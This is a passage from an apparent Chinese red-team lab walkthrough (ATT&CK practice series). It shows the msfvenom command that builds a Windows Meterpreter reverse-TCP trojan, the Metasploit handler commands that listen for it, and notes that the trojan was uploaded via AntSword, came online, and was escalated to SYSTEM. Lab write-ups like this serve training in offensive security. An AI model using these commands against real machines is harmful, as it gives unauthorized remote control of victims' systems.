 

## （二）MSF

### msf木马上线

制作msf木马

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your-IP LPORT=your-PORT -f exe -o /home/kali/tmp/shell.exe
```

![image-20231117152202589](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117152202589.png)

开启msf监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.9.75.3
set lport 4567
run
```

通过蚁剑将生成的木马上传并运行

![image-20231117152740528](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117152740528.png)

木马成功上线，进行system提权
